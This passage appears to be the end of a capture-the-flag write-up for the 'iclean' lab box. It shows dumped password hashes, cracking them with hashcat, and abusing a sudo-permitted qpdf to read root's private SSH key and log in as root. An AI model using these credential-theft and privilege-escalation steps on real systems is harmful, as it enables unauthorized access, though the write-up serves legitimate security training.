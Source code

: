 ```bash
1       admin   2ae316f10d49222f369139ce899e414e57ed9e339bb75457446f2ba8628a6e51        21232f297a57a5a743894a0e4a801fc3
2       consuela        0a298fdd4d546844ae940357b631e40bf2a7847932f82c494daa1c9c5d6927aa        ee11cbb19052e40b07aac0ca060c23ee
```

Now that looks very useful!

Looking back at `opt/app/app.py` we find this:
```py
password = hashlib.sha256(request.form['password'].encode()).hexdigest()
```

So we can use `hashcat` to crack our passwords:
```
$ hashcat -m 1400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt
```

Using `consuela`'s password, we can login as her, and get our user flag!

However, we couldn't seem to crack the admin's password.

```bash
consuela@iclean:~$ sudo -l
[sudo] password for consuela: 
Matching Defaults entries for consuela on iclean:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User consuela may run the following commands on iclean:
    (ALL) /usr/bin/qpdf
```

Looking online we find:
> QPDF is both a software library and a free command-line program that can convert one PDF file to another equivalent PDF file. It is capable of performing transformations such as linearization, encryption, and decryption of PDF files.

After some online search I found that it is possible to use `qpdf` to copy a file to another: `qpdf file1.pdf --copy-encryption=file1.pdf file2.pdf`\
However, the following command didn't seem to work:
```bash
consuela@iclean:/tmp$ sudo /usr/bin/qpdf /root/root.txt --copy-encryption=/root/root.txt /tmp/flag
WARNING: /root/root.txt: can't find PDF header
WARNING: /root/root.txt: file is damaged
WARNING: /root/root.txt: can't find startxref
WARNING: /root/root.txt: Attempting to reconstruct cross-reference table
qpdf: /root/root.txt: unable to find trailer dictionary while recovering damaged file
```

After a long while, I figured out how to copy a non-pdf file to another using `qpdf`.\
With that , we could try and get access as root using root's Private RSA Key, as shown in [this tutorial](https://assume-breach.medium.com/hacking-tutorial-how-to-ssh-to-a-remote-system-with-a-found-private-key-fbe521bf1efa).

```bash
consuela@iclean:/tmp$ sudo /usr/bin/qpdf --empty /tmp/flag.txt --add-attachment /root/.ssh/id_rsa -- 
```

From that we can get root's private key, copy it on our own machine and connect through ssh.

```bash
$ chmod 600 id_rsa
$ ssh root@10.10.11.12 -i id_rsa
```

And now we can finally get the root flag!
